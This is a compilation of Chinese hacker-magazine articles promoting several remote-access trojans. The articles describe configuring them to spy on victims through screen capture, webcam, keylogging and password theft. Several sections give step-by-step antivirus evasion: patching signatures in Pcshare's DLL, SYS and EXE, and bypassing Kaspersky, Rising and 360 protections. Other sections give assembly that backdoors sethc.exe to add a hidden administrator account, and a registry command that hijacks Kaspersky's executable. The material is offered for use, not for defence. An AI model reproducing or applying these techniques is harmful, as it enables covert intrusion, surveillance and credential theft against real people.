“自定义 DLL 名”可设置木马名称，服务端可伪装为 DLL 文件。还可设置上线备注、连接密码、上线时间间隔，以及“使用 UPX 压缩服务端”“自动删除自身”等选项，最后点击“生成被控端”即可创建服务端。

#### 二、远程控制操作

在“选项设置”中配置客户端监听端口（如 9000），点击“开始监听”后运行已配置好的服务端程序，即可看到主机上线。文中说明其上线方式可绕过部分主动防御机制。

系统服务的方法可绕过主动防御，这样在多数杀毒软件默认配置下不会出现提示，并且可以突破 360 安全卫士的监控。

无论传输文件还是其他数据，由于灰熊猫采用了断点续传功能，因此通过鼠标右键可以暂停传输，在适当的时候进行数据续传（图5）。


首先单击工具栏中的“屏幕控制”按钮，灰熊猫的屏幕控制效仿了黑洞的逐行扫描。木马会弹出一个窗口，设置远程屏幕控制的颜色，这里就选择 65536 色，捕捉效果是最好的。确定后进入捕捉窗口就可以马上进行屏幕捕捉了。虽然灰熊猫的捕捉速度还不能和黑洞相比，但是已经比同类的远程控制软件要快很多了（图3）。

从上图中我们可以看到，远程用户正在玩游戏。如果我们想通过鼠标键盘进行控制的话，可以在窗口标题栏上点击鼠标右键，按菜单中的 Control 命令，然后就可以通过鼠标键盘进行控制，就好像在自己的本地系统中操作一样。

点击工具栏中的“管理中心”按钮，其中包括了大量的远程控制命令：文件管理、注册表、进程、超级终端等。通过点击“系统信息”项中的“获取系统信息”，可以看到远程系统的信息状况，其中包括了杀毒软件和防火墙的信息，这对于远程控制操作有很大的帮助。接着点击“服务端”中的“刷新信息”，可以看到服务端程序的各种相关信息，并且还可以对服务端进行断开、卸载等操作。


点击窗口中的“文件管理”，通过该功能可以进行远程文件管理操作。首先点击窗口中的“获取硬盘”，可以在状态栏中看到执行结果。在“分区”下拉列表中选择需要查看的分区，接着就可以在磁盘目录中看到其中的文件信息。通过鼠标右键中的命令，可以执行上传、下载、运行、删除等操作（图4）。无论用户是上传还是下载文件，都可以在旁边的“传输管理”查看到这个文件的传输过程，包括传输进度、文件大小、已发送的数据等。


## 收马记


点击“超级终端”，就可以进行大量的终端命令操作了。为让用户操作起来更加方便，可以点击“设置字体”和“背景颜色”按钮，设置自己喜欢的背景和字体。点击“打开终端”按钮，就能成功调用远程系统的命令提示符，这样用户在“shell命令”中输入终端命令后，就可以看到在窗口中显示出该命令的反馈结果（图7）。

最后点击“摄像头”，点击“获取摄像头”按钮就可以检测远程系统是否安装有摄像头，如果有的话就可以在列表中进行设备的选择，然后选中“自动捕获”，就可以捕捉远程的图像信息了（图8）。


为了让用户更好地进行远程控制，灰熊猫为用户提供了注册表、进程、窗口、服务等管理命令。通过注册表标签可以对远程注册表进行管理控制，就好像在自己的系统中管理操作一样，比如增加新的注册表项目、删除或修改已有的注册表信息。而在进程和窗口标签中，可以对远程系统的进程和窗口消息进行所需要的控制操作，比如结束指定的进程信息、关闭指定的窗口，或者使其最大化、最小化等操作。通过服务标签可以获得远程系统中的服务信息，从图中可以看到远程系统安装了卡巴斯基的杀毒软件。通过窗口下面的按钮可以完成刷新、启动、停止、新建服务等操作（图6）。

#### 三、总结

总的来说，灰熊猫正如它自己介绍的那样，集合了大量优秀远控软件的特点，但是灰熊猫最大的特色还是可以突破主动防御和360安全卫士的监控。因此以后对付木马程序，光依赖杀毒软件是远远不够的。如果你觉得灰熊猫还非常不错，那就去下载一个试用一下吧。（本文所涉及到的灰熊猫已收录到光盘中）

## 软壳乌龟杀Pcshare

目前的免杀是越来越难做了，各路杀毒软件都将我们小菜的最爱盯得紧紧的，特别是曾经称霸一时的灰鸽子，也随着去年辉煌的一声炮响，成为各大杀毒公司的眼中钉。一个时代的逝去必然引领另一个时代的到来，于是我们找到了Pcshare这款优秀的国产远控软件，它采用HTTP反向通信、屏蔽数据传输、驱动隐藏端口通信等技术，已经成了一款足以与灰鸽子并驾齐驱的远控软件。今天，我们就来看看这款小黑必备的木马是怎样隐形于杀毒软件面前的。

杀毒软件定位的特征码是小于64字节的，所以最后定位出的特征码的单位长度一般是2。定位繁琐的过程就不再赘述了，直接给出结果，如图1、图2。

今天我们主要用到以下的一些工具：卡巴7.0、Pcshare免费版（本人使用的是越狱免费版本20071125）、Mycc1特征码定位器、OllyDbg、OC、LordPE、C32Asm以及ASCII卡巴主动防御终结者。


在Pcshare软件的update文件夹里有三个文件，为服务端原始文件压缩包，我们生成服务端就是靠这三个文件：PcMain.dll，插入进程的主文件，实现穿墙；PcHide.sys，通信文件，实现隐藏通信；PcInit.exe，将上面的两个文件装入自身，生成客户端文件，也就是肉鸡要执行的文件。我们的思路就是将这三个文件分别进行免杀，从而达到服务端的免杀。

### 一、DLL文件免杀

定位特征码我使用Mycc1。平时在使用过程中对于大一点的木马先分成10块，然后慢慢增加；而小一点的木马，比如pcshare，则可以填写得大一点，比如100。还有一点需要注意，……


这两处使用Mycc1定位出的特征码位置均为文件物理地址，因为我们要使用OllyDbg进行特征码的修改，所以还要知道它们对应的内存地址。内存地址可以使用OC来进行计算，特征码的物理位置转化成内存地址分别为10010931和10010BBC，如图3。


看到这儿，可能有的读者就要说了：这个方法我试过，OC转化的地址是错误的，我在OllyDbg中根本找不到OC转化的内存地址！其实这并不是OC计算出错了，而是你自己的观念没有转换过来。要解决这个问题，我们必须先理解什么是DLL文件，以及DLL文件的特性。

### 小知识：什么是DLL文件？

DLL的学名叫做动态链接库文件（Dynamic Link Library），它允许程序共享执行特殊任务所必需的代码和其他资源。DLL实际也是一种可执行文件，不过它跟我们平时看到的EXE文件的运行方式不一样：EXE文件是可以独立运行的，而DLL文件不能独立运行，它必须要插入到某一个EXE文件中才能运行。打个比方，EXE和DLL都是军械武器，EXE是军用卡车，DLL文件是大炮……这里很简单：DLL文件的执行需要EXE文件加载。

了解了DLL文件的特性后，我们再来了解一下OC计算内存地址的原理。OC在计算内存位置的时候是根据文件的镜像基址来进行计算的。假如在载入内存后文件的镜像基址发生了变化，那么OC计算出的内存地址也会随基址发生相应的改变……并不是OC计算错误，而是文件镜像基址发生了改变。

现在让我们来实际操作一下：打开LordPE，点击PE编辑器，选择PcMain.dll。此时可以看到，PcMain.dll的原镜像基址为10000000，如图4。


现在我们来看看PcMain.dll的镜像基址有没有改变。使用OllyDbg载入PcMain.dll，它无法单独加载到内存中，所以OllyDbg会使用一个EXE文件来加载它，这个EXE文件叫做loaddll.exe，是OllyDbg自带的。当我们使用OllyDbg来加载DLL文件时会有提示，如图5。我们点击“是”，DLL文件就被加载了。按下Alt+M，来到Memory map。这时我们发现PcMain.dll的基址变成了008B0000，如图6。


| 地址 | 大小 | 属性 | 区段 | 包含 |
|---|---|---|---|---|
| 00430000 ... | ... | LOADDLL | .idata/.edata/.rsrc | 输入表/输出表/资源 |
| 008B0000 ... | ... | PcMain | PE文件头、.text、.rdata、.data、Share、.reloc | 代码、输入表、输出数据、重定位 |
| 10000000 ... | ... | miscr3 | PE文件头、.text、.rdata、.data、.rsrc、.reloc | 代码、输入表、输出数据、资源、重定位 |
| 5D170000 ... | ... | COMCTL32 | PE文件头、.text、.data | 代码、输入表、数据 |

图6（Memory map列表）

为什么会变成008B0000呢？大家仔细看上图，原来10000000这个位置已经被miscr3给占用了，所以我们的PcMain就被挤到上面去了，成了008B0000。好了，既然我们知道了文件现在的基址，就可以得出现在特征码的位置了。OC基于原基址10000000计算出的第一个特征码内存地址为10010931，也就是说特征码在10000000下面的第10931行。现在的基址变了，变成了008B0000，但特征码相对于基址的位置是不变的，也就是说现在特征码的位置还是在008B0000下面的第10931行。008B0000+10931=008C0931，所以现在特征码的位置是008C0931。同样的方法，我们计算出另一处特征码现在的位置是008C0BBC。

找到特征码的位置后，接下来就是修改特征码了，使用跳转法也可以，等效命令替换法也可以。这里笔者使用跳转法。

```asm
mov eax, dword ptr [ebp-15C]
...
jmp 008C198C
...
jmp 008C0931
nop
```

再就修改完毕了。同样的方法，我们要继续修改第二处特征码，位于008C0EBC处，特征码为`push 8C5B06`，修改的方法还是和上面一样。

当两处特征码都修改完毕后，就要将我们修改的部分保存起来。方法是单击右键，选择“复制到可执行文件”，再选择“所有修改”，在弹出的对话框里选择“全部复制”，最后保存文件并替换原文件，使用卡巴斯基扫描一下吧，免杀成功。

方法：先不免杀这个EXE文件，直接生成服务端，然后对生成的服务端进行免杀，结果证明我这种方法是可行的。如果大家也遇到了同样的问题，可以考虑采取我这种方法。

使用Mycc1定位出的特征码如下：

```text
[特征] 00000993_00000002
[特征] 000014E3_00000002
```

接着使用OC计算出内存地址：第一处为00401593，第二处为004020E3。使用OllyDbg载入，第一处特征码为`call dword ptr [403078]`，第二处特征码是`mov byte ptr [ebp-29E], 8`。同样使用跳转法修改特征码，保存后使用卡巴检查，已经不提示了。

### 二、SYS文件免杀

修改完DLL文件，我们再来看看SYS文件的修改。SYS文件的修改方法有很多，可以修改PE头，也可以修改特征码等。在这里着重说明一个问题：有的朋友说SYS文件不能载入OllyDbg，所以不能免杀！呵呵，OllyDbg确实不能用，但是我们可以使用其他工具啊。我就是使用C32Asm这款工具对SYS文件的特征码进行修改的，效果不比OllyDbg差。


具体修改方法与上面讲到的是一样的，先找到特征码，然后使用跳转法搞定。唯一不同的就是当我们使用C32Asm时，要注意选择十六进制模式，这样就可以和OllyDbg一样使用了，如图7。我定位出的特征码位置在00000968处，右键选择“跳到”，填入00000968来到特征码处，如图8。


是不是看到一堆犹如天书般的16进制数字呢？不要慌，我们把光标点击在00000968处，然后点鼠标右键，选择“对应汇编模式编辑”，这样就来到了另一个界面，如图9。


很熟悉吧，这个和OllyDbg的界面是差不多的，当然操作方法也就类似。我们可以看到，特征码为`CALL [10320]`。这时候使用跳转法来乾坤大挪移，方法同DLL文件的修改一样，不再赘述。有一点需要注意，在OllyDbg中编辑某一行的话双击该行就可以了，而在C32Asm中要想编辑某一行要单击右键，选择“汇编”才可以，如图10。


### 三、EXE文件免杀

在进行EXE文件免杀的时候我遇到了一件怪事：文件已经免杀好了，当时取名为11.exe，测试了一下效果，也躲过卡巴的查杀了。于是我重新把名字改回PcInit.exe并放回update文件夹。但是当再次对这个已经免杀好的PcInit.exe扫描时，卡巴却报毒了。这个问题至今我也没搞明白是怎么回事（我绝对不相信卡巴斯基会使用检查文件名的方式来查杀），所以我换了一种方法。

#### 四、突破主动防御

卡巴的主动防御实在强悍，虽然我们的免杀木马已经制作好了，可是主动防御依然不能突破。突破不了只能考虑歪门邪道，我看到网上流传一种脚本修改系统时间的方法，但是用到的脚本太多，编写也不是很方便。这里我们使用“ASCII卡巴主动防御终结者”这款软件，这个软件是用VB编写的，方法也是采用修改系统时间使卡巴暂时失效，但是它只使用一个文件，而且也免去了编写脚本的不便。


这款软件包含三个文件，如图11。先双击“注册.bat”，注册其中的OCX文件方能使用，如图12。然后打开“ASCII卡巴主动防御终结者.cc”，点击“选择木马”，选择后点击“生成终结者”，提示成功，如图13。


这时会在“ASCII卡巴主动防御终结者”文件夹下生成一个“可以过主动的文件.exe”，这就是我们经过处理的木马了。这种只生成一个文件的方式要比使用脚本修改系统时间的方法简洁得多了。工具就是工具，它是一成不变的，重要的是自己灵活的思路。假如有一天这个软件不能用了，你是不是会再次措手不及呢？最后附送小弟写的打油诗一首，万莫见笑。

- 黑路要想走得好，免杀技术很重要。
- 杀软虽是惹人恼，日子越来越难熬。
- 关键看你的大脑，思维灵活很重要。
- 成功道路千万条，英姿总站死牛角。
- 视线总忘分得好，芝麻开花节节高。
- （本文所涉及到的Pcshare和相关免杀工具已收录到光盘中）

### 粘滞键 + 逆向工程——再次打造隐藏后门

自从粘滞键后门出来后，很多人对这个后门的利用进行了改进。有的人通过编程模仿原来正常的粘滞键程序界面来使后门更加隐藏……可小菜我不会编程，那能不能也用自己的方法打造隐藏后门呢？当然可以的。

一天晚上正看着第3期我爱大饼朋友所写的“小小逆向工程终觉后门”，其中一句话引起了我的注意：“添加账号、开启端口、删除文件什么的都可以”……于是我想到可通过逆向工程在粘滞键的程序`sethc.exe`里写入添加管理员账户的代码。

第二天上午便进行了尝试。使用到的工具是PEiD、OD和LordPE。先从虚拟机中的Windows 2003里把sethc.exe复制到准备处理的Windows XP系统中，用LordPE查看程序地址，再用PEiD深度扫描。


先来找0区域，单击PEiD中“EP区段”的“打开节查看器”，在窗口中搜索全0处。根据`.text`与`data`区段大小，选择了data区段中的全0区域。


data区段的RVA是`00008289`，加上基址`01000000`得到内存偏移地址`01008289`。使用OD打开`sethc.exe`，程序停在入口点，按`Ctrl+G`跳转到该地址，找到全0区域后开始写入字符串。


由于要写入的是命令`net user 123 123 add`（文中实际以编辑窗口输入为准），从指定地址开始按字节写入。随后继续向下定位，修改程序入口附近代码，并准备写入汇编跳转逻辑。


```text
net user 123 123 /add
```

```asm
push 0
push 01008291
call WinExec
jmp 010082EC
```

其中01008291就是刚才写入代码处的首地址，010082EC我们在下面会提到。然后再向下3行，来到010082C0处，从010082C0开始向下选中19行（38个字节），再次右键——二进制——编辑，输入`net localgroup administrators 123 add`，如图5。

向下3行来到010082EC（上面`jmp`跳到处）处，依次输入如下汇编代码：

```asm
push 0
push 010082C0
call WinExec
jmp 010036F6
```

其中010082C0是第二处代码开始处，010036F6是原程序入口点，如图6。从01008291开始选中所有修改的代码，右键——复制到可执行文件，确认所有修改并保存文件，如图7。

使用LordPE打开新修改的文件，把程序的入口点由000036F6改成000082AC，保存、确定，退出LordPE。这样sethc.exe就修改好了，虽然在程序里写入了新代码，但由于是在程序内部的全0处写的，所以程序的大小一点也没有发生变化，版本信息也没变，如图9。

上面的代码为什么那么写，我给出一个简单的示意图，如图6。


图10。在执行原程序之前，先执行命令“net user 123 123 add”，然后跳到代码“net localgroup administrators 123 add”处执行，最后再跳回原程序入口点，执行原来的程序。


看看修改后的程序能不能完成预期的功能，把修改后的sethc.exe拖到虚拟机里，分别替换`system32\dllcache\sethc.exe`和`system32\sethc.exe`（顺序千万别错哦，要不然可能替换不成功）。来看一下当前Win2003中的用户，是没有123这个用户的，如图11。在XP中通过远程桌面连接Win2003，在全屏的终端窗口中连续按5下Shift键，出来粘滞键对话框后点确定，然后直接使用用户名123、密码123进行登录，如图12。

再来看用户，多了一个名为123的用户，后门打造成功，如图13。


在制作这个后门的时候我遇到了一些问题，比如一开始打算直接在程序里用二进制写入“net user 123 123 add & net localgroup administrators 123 add”，但发现只执行了前半部分，即只添加了一个用户名和密码都是123的用户，却没有加入到管理员组，我只好把它分开执行。为了增加后门的隐蔽性，最好修改完文件后修改一下文件时间。另外，这个后门也存在一些问题，不管谁调用sethc.exe都会添加用户，有可能被发现（管理员发现多了用户）。

（续前文）……我测试的环境是 Microsoft(R) Windows(R) Server 2003 Enterprise Edition，测试过程中提到的一些文件与程序细节，以及对后门隐蔽性的说明。

有时候尽管替换了 dllcache 下的 scthc.exe，仍会被还原。通过“粘滞键”后门可在原程序基础上做少量修改，体积与版本信息变化不大，不易被杀软查杀。

### 木马帝国的远程控制软件


最近，国内许多安全网站推出了自己的远程控制软件。本文对“木马帝国”的远控木马进行测试，看看其是名副其实还是徒有虚名。

#### 一、配置服务端程序

首先运行木马帝国的远程控制程序。由于文件包中没有 IP 地址数据库文件，需要先从网站下载并放入目录。随后进行客户端生成设置：上线地址、端口、上线标识、安装文件名等。点击“创建服务端”后，提示程序插入到系统 svchost.exe 进程中。

在客户端管理中可进行文件上传下载、删除、重命名等操作，传输支持断点续传，并可查看进度。工具栏和右键菜单提供常见管理功能，亦可在“设置系统”中调整选项。


在服务端连接上可通过右键执行“捕获屏幕”等命令，能够看到远程桌面截图；并提供“视频监控”等功能用于调用远程摄像头设备。


#### 二、远程控制服务端

将服务端程序上传到被控主机运行后，可在客户端“远程管理”中看到上线主机。双击可打开文件管理窗口（上半部分本地磁盘目录，下半部分远程磁盘目录），并进行进一步控制。


通过右键菜单中的“系统密码”“系统信息”等命令，还可查看更多目标主机信息，详细地了解到远程系统的基本信息。“系统密码”命令可以获取远程系统的登录账号密码信息，虽然程序声称只支持 Windows 2000 系统，但是经测试发现 Windows XP 系统也可以成功获取系统密码。而“系统信息”则可以了解到系统版本、浏览器版本、显示器分辨率等远程系统更多的信息内容。

为了更好地进行远程控制管理，木马帝国远控的右键包括了进程管理、服务管理和窗口管理三项命令。利用进程管理命令，可以查看到包括隐藏进程在内的远程系统中的所有进程信息。其中也包括服务端程序线程插入的那个 svchost.exe 进程。通过“进程”中的命令还可以进行查看、刷新、关闭、强关现有进程。如果是安全软件的进程，就可以关闭其对应的进程，来达到保护服务端的目的（图5）。


图7


图5

服务管理命令可以对远程系统中的服务信息进行管理，其中包括对于系统信息的查看以及对选中的服务进行启动、停止、删除等操作。另外程序还可以进行新服务的安装，点击“安装”按钮后在弹出的窗口进行设置，包括服务名、服务显示名、服务程序路径信息等（图6）。


图6

通过窗口管理可以对远程系统的窗口进行管理，实现对远程窗口的最大化、最小化、正常关闭、暴力关闭等操作。点击右键中的“字符终端”命令，在弹出的窗口中模拟了一个 Telnet 的功能环境，在提示符后输入所需的终端命令，就会显示出该命令的执行结果（图7）。如果用户想要清除屏幕中的信息，可以选择菜单中的“清除”命令。

除此以外，如果用户处于内网环境的话，可以点击客户端中的“端口映射”，首先点击页面中的“查找设备”按钮，程序就会自动搜索网络中的 UPNP 设备。当搜索到这些设备后，进行内网和公网地址端口的设置，点击“添加”按钮就可以完成端口映射操作了（图8）。


图8

通过“其他软件推荐”栏可以下载其他的软件信息，其中包括一个即时通信软件和密码取回软件。比如点击“互联网密码取回”链接，下载的程序可以找回本地保存的互联网拨号器登录密码。运行程序后再登录互联网拨号器，程序就会把 ADSL 密码记录在 C 盘的 adslpass.txt 里面。

#### 三、小结

到此为止，木马帝国远控的测试就结束了。通过测试我们可以看到，木马帝国远控已经具备了常见的管理控制命令，并且在很多方面都和国产的“灰鸽子”非常类似。我认为作者只需要对这些功能进一步加强，再加上突破主动防御的相关功能，那么以后的木马帝国远控还是非常不错的，有兴趣的朋友也可以下载一个来感受感受。

（本文所涉及到的木马帝国远控已收录到光盘中）

### 什么是提权（提权权限）

> 现在的操作系统，为了安全性，都引入了权限这个概念。那么，到底权限是什么呢？我们举个简单的例子来说明吧。比如系统管理员设置甲用户只能访问 A 目录，设置乙用户只能访问 B 目录，那么，甲用户是不能访问 B 目录，而乙用户也是不能访问 A 目录的，他们更不允许来更改这个设置，这就是权限。那么，倘若甲用户或乙用户利用系统中的安全漏洞或是别的方法使得自己突破了原来的限制，能够非法访问对方目录，甚至使得自己能够像管理员那样来获取对整个系统的控制，这就是提权。


### 远程控制的新选择——DG 远控 2008

txcbg

某一日，我使用 IIS 写权限拿到了一个网站的 webshell，发现是系统权限。由于开启终端服务没有成功，于是就打算上传一个木马来进行远程控制。可上传了几个常用的木马都被查杀了（对方服务器上安装的杀毒软件是 BitDefender + F-Secure Anti-Virus，我手头没有能躲过它们查杀的免杀木马），最后只好去网上寻找新木马，就这样找到了 DG 远控 2008，使用了一下感觉相当不错，特推荐给大家。

#### 一、配置服务端

运行最新版的 DG 远控 2008，其主界面非常简洁。软件在默认状态下的上线端口是没有设置的，我们需要手动输入一个上线监听的端口，然后按前边的“开始监听”按钮进行监听，如图1。


点击“生成服务端”后就弹出了配置窗口，首先看“基本信息”，对于“DLL 名称”“上线备注”和“上线密码”都可以自己定义；“DLL 路径”是木马运行后释放到的地方，一共有两个选择：WINDOWS 目录和 SYSTEM32 目录。为了使生成的服务端不容易被查杀（现在的许多杀毒软件对 system32 目录都盯得很紧），建议选择 WINDOWS 目录，如图2。


在“上线方式”中提供了 DNS 域名上线和 HTTP 上线两种方式，我使用的是 3322 的域名上线。至于上线的端口，使用默认的 9000 端口就行（如果你自定义了端口，那么服务端的上线端口一定要和你的控制端的监听端口一致，否则就会上不了线），如图3。再来配置木马的启动方式，DG 远控 2008 主要是通过服务来达到开机自启的目的，一共有两个选择：一个是替换系统原有的服务，一个是新建服务。我选择的是默认的替换 BITS 服务，如图4。


服务端配置已经完成了，点击右下方的“生成”按钮来生成一个服务端。生成的服务端程序大小为 78.4KB，没有加壳（使用 PEiD 的“核心扫描”进行检测，会显示为 Borland Delphi DLL [Overlay]），我们可以根据自己的需要进行加壳或免杀处理。

#### 二、服务端功能简单介绍

我们来简单测试一下，在本机上运行生成的服务端程序，很快我们的电脑就上线了。在上线的电脑上点鼠标右键，就弹出了功能菜单，如图5。


“远程屏幕”可以监控对方的桌面，还可以选择远程屏幕的颜色多少，以使我们能够在传输速度和画质间作出最佳的选择，如图6。“视频监视”和“音频监听”我就不介绍了，相信经常使用木马的朋友都清楚。“超级终端”可以执行一些系统命令，在下方的输入栏中输入命令，然后回车就可以执行了，如图7。“远程按键”能够记录对方的键盘输入，可以尝试使用此功能记录管理员的密码等。接下来，我们看看功能最强大的“远程管理”，之所以说它功能强大，是因为它包含了服务端信息查看、服务管理、进程管理、窗口管理、注册表管理、文件管理、传输状态管理等七大功能。先来介绍“服务端信息”一节。右键刷新后，服务端的信息就出来了（“服务管理”和“进程管理”也需要刷新后才能看到对应的服务和进程）。通过该功能我们可以看到服务端电脑的基本配置、开机多长时间等信息，如图8。


“服务管理”可以查看、启动、停止服务，也可以新建、删除服务。“进程管理”可以查看、结束进程。“窗口管理”可以对远程计算机的窗口进行最大化、最小化、显示、隐藏、关闭等操作。“注册表管理”可以对远程注册表进行删除某个键值、新建某个键值、重命名等操作，如图9。

最后再来看一下“文件管理”。首先点击“获取硬盘”来获取对方的硬盘驱动器列表，然后就可以选择磁盘了，相应的文件和目录会显示在下方，我们可以实现文件的上传、下载、删除文件、远程运行程序等功能，如图10。

在使用的过程中我发现，对某个文件选择“下载”后，并没有弹出选择保存文件位置的对话框，但文件其实已经下载了，保存在了控制端所在目录的“DownFile”文件夹下。另外，“传输状态”管理还可以对正在上传及下载的文件进行暂停、继续等操作。

虽然 DG 远控 2008 刚出来不久，但可喜的是作者对软件的更新很快。如果作者在以后的版本中能够完善一些功能（比如下载文件时无法自定义下载到的目录），相信这款软件会更好用。总体来说，DG 远控 2008 是一款不错的远程控制软件，尤其是当我们手头暂时没有免杀的木马时，它绝对是一个不错的选择和强有力的补充。

> （文中涉及到的 DG 远控 2008，已经收录在光盘中）

## 驭马记


### 骗子如何逃过防御与 360 安全卫士

在国产的杀毒软件中，瑞星的使用量是最多的，不过它的主动防御功能和其他的杀毒软件比起来却显得有点水。瑞星主要是依靠主动防御特征码（非文件、内存特征码）来定位，所以我们在运行灰鸽子服务端的时候会直接显示为后门程序，这难免让人觉得有点可笑。

网上提到最多的就是定位瑞星的主动防御特征码。我参照着做了一下却没能成功，在 OD 里没有显示任何异常，不过直接运行的时候却被拦截了。我想应该是还有一些特征码没有被定位出来，对于这部分非要完整运行才会显示，我们使用 OD 是无法办到的。

此外，还有一些另类的方法，比如结束杀毒软件的进程，我们暂不讨论。以灰鸽子为例，在配置服务端的时候仅勾选写入注册表和服务（图1），然后……


## 败马记

把杀毒软件的所有监控都关闭，直接运行生成的服务端。先别忙着卸载灰鸽子，打开注册表“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services”，找到“灰鸽子最终免杀专版”（我刚才配置服务端的时候服务名称写的就是这个）展开，把 Enum 项删除，然后点鼠标右键将其导出到桌面（图2）。

随便找一个结束进程的工具把灰鸽子服务端的进程结束掉，然后把服务端文件复制出来。这里注意要把文件夹选项中“隐藏受保护的操作系统文件（推荐）”前的勾去掉才可以看到（图3）。接下来就可以卸载灰鸽子的服务端了。


以上这样做是为了得到灰鸽子服务的注册表键值，我也曾使用 SC（XP 系统自带的服务修改工具）来添加灰鸽子为系统服务，不过启动没有成功（启动一会儿就自动关闭了）。导出的灰鸽子服务注册表中 Type 值是 110，而一般程序是 10，我想有可能是这个原因才使 SC 没能达到目的吧！我们可以写一个批处理把注册表导入，使用“regedit /s”就可以完成。如果你不喜欢赤裸裸的注册表文件，也可以使用“Reg 转 Bat”这个小工具来转换一下（图4）。在这里我将转换后的文件命名为灰鸽子.bat，用记事本打开灰鸽子.bat，在后面添加“del 灰鸽子.bat”和“del Hide.vbs”（Hide.vbs 为隐藏 BAT 运行时的窗口），这样就可以实现自动删除了。然后使用 WinRAR 直接打包成自解压文件就可以了。需要注意的是，解压路径要填写配置灰鸽子时的安装路径，比如我这里为“%WinDir%\system\”，而“解压后运行”就填 Hide.vbs（图5）。


这样一个过瑞星主动防御的灰鸽子就诞生了。美中不足的是系统重启后灰鸽子才会上线，这是因为我们是使用导入注册表的方式来注册服务，重启计算机后服务才会生效。其实也可以使用添加启动项的方式来启动，不过在配置灰鸽子的时候就不能勾选任何启动方式。考虑到启动项容易被查出来，因此本文就不怎么介绍了。

总结一下，通过卡巴的主动防御拦截记录可以看出，自动删除安装文件和注册服务为危险操作，会被主动防御拦截，所以我们使用打包的自解压程序来自动释放到目的目录和导入服务的方式，就可以比较完美地过主动防御了。

360 安全卫士现在使用的人非常多，因此灰鸽子也成了它重点查杀的对象之一。一打开 360 安全卫士就提示有 1 款恶评插件（图6）。按常规做法应该去定位特征码，考虑到它并不是什么专业的杀毒软件，于是就尝试着把灰鸽子文件名称改了下，原始路径是 C:\WINDOWS\system\svchost.exe，名称改成 svchost1.exe，再打开 360 安全卫士时竟然不显示了，使用它的“查杀流行木马”功能也没有查找到。原来它的定位原理仅仅是依靠路径和文件名称，只要符合它定位的路径和名称就认为是木马。为了进一步验证我的判断，我新建了一个文本文件命名为 svchost.exe，打开 360 安全卫士时显示为灰鸽子变种0017，真是让人失望。这样的安全卫士不装也罢，以前还用它来查杀一些木马，现在想想真是可笑。我们只要在配置服务端的时候名称注意一下就可以过 360 安全卫士了。


（文中涉及到的 Reg 转 Bat、fint2005、hide.vbs、灰鸽子以及演示教程等，已经收录在光盘中）

### 小菜来教你使用黑鹰远控

- 天涯衰草

黑鹰远控是黑鹰开发的一款远程控制软件，最初是需要用户加入其会员后才可以获得，不过最近有人将黑鹰远控的破解版公布在了网络上。我下载试用了下，感觉非常不错，在此特写出来与各位朋友共享。

#### 一、配置木马

由于黑鹰远控需要在线认证才能够生成服务端，因此我们可以利用“黑鹰远控服务端生成器”来进行配置。运行黑鹰远控服务端生成器，在“上线设置”中配置服务端程序所使用的连接方式。黑鹰远控可以采用域名、IP 地址、网页文件等上线方式，这和别的木马或远程控制软件都是基本类似的。上线方式选择完后，填好上线密码、上线监听的端口、上线备注等信息，接着在“安装信息”中设置安装的文件名称以及启动服务的相关信息，如图1。最后点击“生成服务端”，配置好的服务端程序就会生成了。从上面的配置信息我们可以看出，黑鹰远控目前还不具备突破主动防御的功能。


#### 二、控制木马

我们直接在本地运行生成的服务端程序，打开客户端，选择其中的“本地端口”。如果在配置服务端的时候没有更改过连接端口的话，那么这儿的端口数就不用更改。当服务端程序连接成功后，双击列表中的服务端信息，就会自动跳转到“远程管理”界面，其中包括了文件、进程、窗口、注册表、视频等控制功能。

我们现在来看看黑鹰远控的远程管理操作。黑鹰远控默认打开的就是文件管理窗口，文件管理窗口采用了类似资源管理器的方式，我们可以进行复制、删除、运行、上传、下载等基本操作。另外，黑鹰远控的文件传输不仅支持断点续传，还可以对下载的文件进行打包操作，或者直接点击“下载所有文件”来快速有效地下载指定目录中的文件信息，如图2。


图2

点击“文件”旁边的“Cmd”，然后选中最右下角的“启动”选项，木马就会调用远程系统的命令提示符。我们在下方的命令执行栏输入想执行的命令，点击后边的“发送”就可以执行了，如图3。比如目前的映像劫持技术在病毒中非常流行，我们执行下边的命令可以完成对卡巴斯基杀毒软件的映像劫持，从而在一定程度上起到免杀的效果了。

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\avp.exe" /v debugger /t reg_sz /d debugfile.exe /f
```


图3


图4

在“进程”选项中可以看到远程系统的进程情况，通过“刷新”命令可以及时获得最新的内容。从进程列表中我们可以一眼看出，黑鹰远控将进程插入到了 svchost.exe 进程中。如果发现了不喜欢的进程，比如杀毒软件或其他安全软件，就可以通过“终止”来结束它。在“窗口”项可以看到远程系统最新的窗口消息，通过右键菜单可以执行显示、隐藏、关闭等操作，如图4。

点击“注册表”，就会出现一个模拟的注册表编辑器，可以对远程注册表中的内容进行查看、编辑、修改等操作。通过对注册表内容的修改，可以对系统进行一定的限制，比如禁止注册表编辑器、命令提示符、任务管理器的使用等。而“服务/驱动”可以查看到 NT 内核中的系统服务，并且能够实现启动服务、删除服务、停止服务等操作。除此以外还可以新建一个服务，按照木马的向导提示分别输入服务名称、服务显示名、服务描述等就行了。另外选中“显示驱动”，还可以显示出远程系统当前的驱动信息。

通过“屏幕”项我们可以进行远程屏幕的查看，在窗口中选中“启动”按钮就可以捕捉到远程计算机的桌面了。由于黑鹰远控默认的所有操作都是在窗口中进行，这样就不方便进行远程桌面的操作了，选中“窗口浮动”后就会弹出一个远程桌面的控制窗口。黑鹰远控捕屏的速度非常快，木马默认的屏幕色彩是 256 色，当然大家也可以根据实际情况选择其他的色彩。通过“控制选项”中的“鼠标控制”和“键盘控制”，就可以实现在捕捉的屏幕上通过鼠标和键盘进行远程的屏幕操作，对于用户的感觉就像是在控制自己的电脑一样。另外通过双击捕捉的屏幕或者选择“自动保存每张图片”，就可以将捕捉的图片保存起来了，如图5。除了远程桌面监控外，黑鹰远控还包括通过摄像头进行捕捉，由于摄像头捕捉在操作上和桌面捕捉相类似，这里就不再进行过多介绍了。


图5


图6

## 牧马记

除了利用系统服务进行启动外，点击“启动项”还可以看到系统的启动项，包括注册表 RUN、Active Setup、启动目录等，这可是其它木马中没有的功能。点击鼠标右键，选择“删除”命令，就可以删除相应的不需要的启动项内容了。

最后来到“系统”选项，可以看到其中的控制命令琳琅满目，包括系统设置、远程桌面、代理设置、下载运行等，大家可以根据自己的需要进行使用，如图6。

#### 三、小结

